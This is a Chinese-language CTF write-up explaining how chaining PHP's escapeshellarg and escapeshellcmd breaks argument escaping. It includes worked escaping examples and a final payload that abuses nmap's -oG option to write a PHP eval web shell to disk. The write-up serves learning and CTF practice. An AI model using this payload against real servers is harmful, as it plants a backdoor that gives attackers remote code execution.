 之前了解过一些, escapeshellarg 和 escapeshellcmd 同时使用可以绕过过滤进行命令执行

参考文章 [https://paper.seebug.org/164/](https://paper.seebug.org/164/)https://www.php.net/manual/zh/function.escapeshellcmd.php)

win 下测试这两个函数的效果跟 linux 不太一样... 只能手动转义了

> escapeshellarg() 会在单引号之前加上 `\`, 并在被转义的单引号两边和整个字符串两边加上单引号
>
> escapeshellcmd() 会在所有的 `\` 前加上 `\`, 形成 `\\`, 并在**不成对**的单引号前加 `\`

```php
123 -> '123' -> '123' # 正常效果
    
123' -> '123'\''' -> '123'\\''\' # 最后一个引号不成对, 被转义

123'' -> '123'\'''\''' -> '123'\\'''\\''' # 所有引号成对, 不转义

'123' -> ''\''123'\''' -> ''\\''123'\\''' # 所有引号成对, 不转义
```

觉得有点绕的可以打开 linux 自己 echo 字符串试一下

nmap 的 `-oG` 功能可以把输出导出到文件中, 我们利用这个功能来写文件

因为如果用 `>` 的话, 是跳不出去单引号的, escapeshellarg 和 escapeshellcmd 共用绕过的本质是他俩对单引号转义的规则不同

```php
123 -oG 456 -> '123 -oG 456' -> '123 -oG 456' # 正常效果
    
123 -oG 456' -> '123 -oG 456'\''' -> '123 -oG 456'\\''\' # 最后一个引号不成对, 被转义

123 -oG 456'' -> '123 -oG 456'\'''\''' -> '123 -oG 456'\\'''\\''' # 所有引号成对, 不转义

'123 -oG 456' -> ''\''123 -oG 456'\''' -> ''\\''123 -oG 456'\\''' # 所有引号成对, 不转义
```

最终 payload 如下

```
?host='<?php eval($_REQUEST[1])?> -oG a.php '
```

注意 a.php 后要有一个空格, 如果不加空格的话, 第二次转义过后生成的 `'\\'''` 会和文件名连在一起, 最终写入的文件名会变成 `a.php\\`

这题网上**很多 wp**都在说最开头的引号后面要加空格, 例如 `?host=' <?php eval($_REQUEST[1])?> -oG a.php '`, 但实际上不用加空格也能够成功写入

不加空格的话文件里的 php 代码就会变成这样

```php
\\<?php eval($_REQUEST[1]);?>
```

前面的 `\\` 对 php 解析是完全没有影响的, 只是看起来像把 `<` 给转义成 `\<` 了

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251606019.png)

## [BJDCTF2020]The mystery of ip
